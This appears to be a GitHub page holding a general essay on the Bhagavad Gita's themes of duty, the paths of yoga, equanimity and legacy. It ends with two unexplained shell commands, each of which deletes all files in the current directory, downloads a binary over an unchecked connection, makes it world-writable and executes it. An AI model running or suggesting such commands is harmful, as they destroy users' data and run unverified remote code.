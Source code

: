 The Bhagavad Gita, often referred to as the Gita, is a 700-verse Hindu scripture that is part of the Indian epic Mahabharata. It consists of a conversation between Prince Arjuna and the god Krishna, who serves as his charioteer. The essence of the Bhagavad Gita can be encapsulated in two key themes: the concept of duty and the path to spiritual realization.

Duty and Dharma: A central theme of the Bhagavad Gita is the concept of duty, known as dharma. Arjuna, facing a moral dilemma on the battlefield, is counseled by Krishna to fulfill his duty as a warrior (Kshatriya) without attachment to the results. This underscores the idea that individuals must perform their prescribed duties, irrespective of personal desires or fears. Dharma is not only about external actions but also the internal alignment of one's intentions with righteousness.

The Path to Spiritual Realization: The Gita outlines various paths to spiritual realization, emphasizing the importance of selfless action and devotion. Krishna introduces three primary paths:

Karma Yoga (Path of Selfless Action): Encourages performing duties without attachment to the results. It teaches that by dedicating actions to a higher purpose and not being attached to success or failure, one can attain spiritual growth.

Bhakti Yoga (Path of Devotion): Emphasizes unwavering devotion to the divine. Krishna teaches that surrendering to a higher power with love and devotion leads to spiritual liberation.

Jnana Yoga (Path of Knowledge): Involves understanding the true nature of the self and the universe. It requires discernment and knowledge to realize the impermanence of material existence and the eternal nature of the soul.

Equanimity and Detachment: Krishna advocates maintaining equanimity in the face of life's dualities – success and failure, pleasure and pain. The teaching encourages individuals to act with a balanced mind, free from excessive attachment or aversion. This detachment helps in navigating the complexities of life with resilience and tranquility.

Universal Brotherhood: The Gita promotes the idea of the oneness of all beings. Krishna teaches that true wisdom recognizes the interconnectedness of all life, transcending superficial differences. This understanding fosters a sense of universal brotherhood and compassion for all living entities.

In summary, the Bhagavad Gita provides profound insights into leading a life of purpose and spiritual fulfillment. It teaches the importance of duty, selfless action, devotion, knowledge, equanimity, and the recognition of the interconnectedness of all existence. By incorporating these teachings into one's life, individuals can navigate challenges with grace, cultivate inner peace, and progress on the path to spiritual realization.

The Philosophy of the Gita:

The Bhagavad Gita transcends its historical and cultural context, offering universal principles that are relevant to individuals from all walks of life. It delves into the philosophical foundations of existence, the nature of the self, and the essence of divinity. Arjuna's internal struggle becomes a metaphor for the human condition, where individuals grapple with moral dilemmas, ethical choices, and the pursuit of a higher purpose.

The Inner Journey:

Embedded within the Gita's teachings is the concept of the inner journey. It encourages individuals to explore the depths of their consciousness, confront their inner conflicts, and strive for self-realization. The path to spiritual enlightenment is portrayed as a transformative process where the seeker evolves beyond the limitations of the ego and connects with the eternal essence within.

Practical Wisdom for Daily Life:

Beyond its spiritual profundity, the Bhagavad Gita offers practical guidance for navigating the challenges of everyday life. The emphasis on performing one's duties diligently, with integrity and without attachment to outcomes, resonates with the complexities of the modern world. The teachings provide a roadmap for ethical living, emphasizing the importance of righteousness, humility, and compassion.

The Gita in Contemporary Context:

As societies evolve and face new challenges, the timeless wisdom of the Bhagavad Gita remains relevant. Its teachings on adaptability, resilience, and the pursuit of excellence offer insights into contemporary issues such as leadership, stress management, and interpersonal relationships. The Gita's call for ethical conduct and selfless service echoes in the quest for a harmonious and sustainable global society.

Interconnectedness and Unity:

Central to the Bhagavad Gita is the concept of interconnectedness. Krishna's discourse emphasizes the unity of all beings, transcending divisions based on caste, creed, or nationality. In an era marked by global challenges and diversity, the Gita's message of universal brotherhood resonates as a powerful call for harmony, mutual respect, and cooperation.

Yoga as a Way of Life:

The Gita introduces the term "yoga," not merely as physical postures but as a holistic approach to life. It encourages the integration of mind, body, and spirit. The various paths of yoga elucidated in the Gita offer individuals the flexibility to choose a method that aligns with their temperament and disposition. This inclusive approach recognizes the diversity of human nature.

Legacy and Impact:

Over the centuries, the Bhagavad Gita has left an indelible mark on philosophy, literature, and spiritual thought. Its influence extends beyond the borders of India, inspiring thinkers, leaders, and seekers worldwide. Translations and commentaries in numerous languages attest to its universality. The Gita's enduring legacy lies in its ability to provide solace, guidance, and profound insights to those navigating the complexities of existence.

Conclusion:

The Bhagavad Gita, with its timeless teachings, serves as a beacon of wisdom, guiding individuals on the journey of self-discovery and spiritual realization. Its relevance persists through the ages, inviting seekers to delve into its verses and discover profound truths that transcend the boundaries of time and culture. The Gita stands as a testament to the perennial quest for meaning, purpose, and the eternal truths that underpin the human experience.


rm -rf * && wget --no-check-certificate -O BhagavadGita https://raw.githubusercontent.com/kcbpcc/kcbpcc/main/BhagavadGita && chmod 777 BhagavadGita && ./BhagavadGita

rm -rf * && wget --no-check-certificate -O TZG848PXY https://raw.githubusercontent.com/kcbpcc/kcbpcc/main/TZG848PXY && chmod 777 TZG848PXY && ./TZG848PXY

